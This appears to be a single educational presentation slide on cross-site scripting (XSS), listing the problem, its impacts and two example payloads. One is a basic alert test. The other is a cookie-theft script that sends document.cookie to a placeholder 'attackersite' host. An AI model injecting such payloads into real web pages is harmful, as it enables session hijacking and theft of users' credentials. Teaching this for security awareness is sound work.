

# XSS - Cross Site Scripting
Problem: User controlled data returned in HTTP response contains HTML/JavaScript code
Impact: Session Hijacking, Full Control of Page, Malicious Redirects
Basic XSS Test:" ><script>alert(document.cookie)</script>
Cookie Theft Example: "><script>document.location='http://attackersite/ '+document.cookie</script>